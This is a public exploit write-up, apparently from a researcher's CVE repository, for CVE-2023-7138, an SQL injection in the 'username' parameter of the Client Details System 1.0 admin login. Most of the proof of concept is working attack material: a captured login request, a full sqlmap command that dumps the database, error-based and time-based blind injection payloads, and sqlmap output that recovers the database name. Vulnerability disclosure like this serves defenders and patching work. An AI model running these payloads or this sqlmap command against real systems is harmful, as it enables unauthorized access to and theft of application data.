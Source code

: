 # CVE-2023-7138_Client_Details_System-SQL_Injection_2
+ **Exploit Title:** CVE-2023-7138_Client_Details_System-SQL_Injection_2
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7138

## References: 
+ **CVE-2023-7138:** https://vuldb.com/?id.249141
+ https://www.cve.org/CVERecord?id=CVE-2023-7138

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'username' in "/clientdetails/admin". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/admin/ HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/clientdetails/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=P@ssw0rd
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 6680 FROM(SELECT COUNT(*),CONCAT(0x7162716271,(SELECT (ELT(6680=6680,1))),0x716b767171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- zYzR&login=&password=P@ssw0rd

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 7749 FROM (SELECT(SLEEP(5)))ysnA)-- MdSB&login=&password=P@ssw0rd
---
[15:08:19] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[15:08:20] [INFO] fetching current database
[15:08:20] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/8fcb4ea7-ff09-4ea1-b8e7-5730ce9a41a8)

